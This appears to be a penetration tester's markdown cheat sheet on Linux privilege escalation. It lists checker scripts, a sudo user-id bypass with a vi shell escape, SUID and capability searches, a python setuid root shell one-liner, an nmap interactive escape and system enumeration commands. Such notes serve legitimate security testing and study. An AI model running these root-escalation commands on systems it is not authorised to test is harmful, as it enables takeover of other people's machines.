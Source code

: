 
# Privilege Escalation

## Linux
* Run auto escalation checkers in the scripts folder
  * Mike_Czumak.py <--- python2 required
  * linuxExploitSuggester.sh

* Abuse commands allowed to run as root
  * These commands can be found in sudoers files
  * $> sudo -u#0 vi anything
  * :!sh
  * find / -type f -perm /4000 2>/dev/null

* getcap -r / 2>/dev/null
  * /usr/bin/python* -c 'import os; os.setuid(0);os.system("/bin/bash");'

* nmap
  * $> sudo nmap --interactive
  * !bash

* find / type -f /4000

## Cron Jobs
* https://github.com/DominicBreuker/pspy

# getting basic knowledge
cat /etc/os-release


| Description | Link |
| ------------- | ----- |
| abuse sudo command | https://null-byte.wonderhowto.com/how-to/abuse-vulnerable-sudo-versions-get-root-0212024/ |


# Simple Linux Enum
(cat /proc/version || uname -a ) 2>/dev/null
lsb_release -a 2>/dev/null
cat /etc/os-release 2>/dev/null

echo $PATH

* run scripts.  Look specifically for programs that can do things like set the uid

